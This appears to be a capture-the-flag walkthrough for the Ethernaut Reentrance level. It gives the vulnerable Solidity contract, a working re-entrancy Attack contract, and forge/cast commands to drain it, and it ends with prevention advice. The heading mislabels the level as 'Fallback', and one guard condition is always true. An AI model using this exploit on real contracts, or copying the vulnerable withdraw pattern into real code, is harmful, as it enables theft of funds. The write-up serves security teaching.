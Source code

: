 ## Fallback Level Outline

**Difficulty : 6/10**

The goal of this level is for you to steal all the funds from the contract.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xe6BA07257a9321e755184FB2F995e0600E78c16D)

## Solution
Re-entrancy attacks continiously call the withdraw function from a vulnerable contract till it is drained. This happens because ETH is sent out of the contract before the ETH is deducted from it's mapping/tracking variable.

### Walkthrough

1. create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Attack {
    Reentrance reentrance;  
    uint256 amount = 0.001 ether;

    constructor(address _reentrance) {
        reentrance = Reentrance(_reentrance); 
    }

    receive() external payable {
        if (address(reentrance).balance >= 0) {
            reentrance.withdraw(amount);
        }
    }

    function attack() public payable {
        reentrance.donate{value: msg.value}(address(this));
        reentrance.withdraw(amount);
    }
}

interface Reentrance {
    function withdraw(uint _amount) external;
    function donate(address _to) external payable;
}
```

2. deploy our new contract
```console
forge create src/Contract.sol:Attack --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

3. call the "attack()" function on our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "attack()" --value 0.01ether --gas 200000 --private-key $PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

## Further Reading
[Video showing example of Re-entrancy attack](https://www.youtube.com/watch?v=4Mm3BCyHtDY&t=321s)

To prevent re-entrancy attacks, use the [Check-Effects-Interactions pattern](https://docs.soliditylang.org/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) or use OpenZepplin's [Reentrancy Guard Contract](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard)

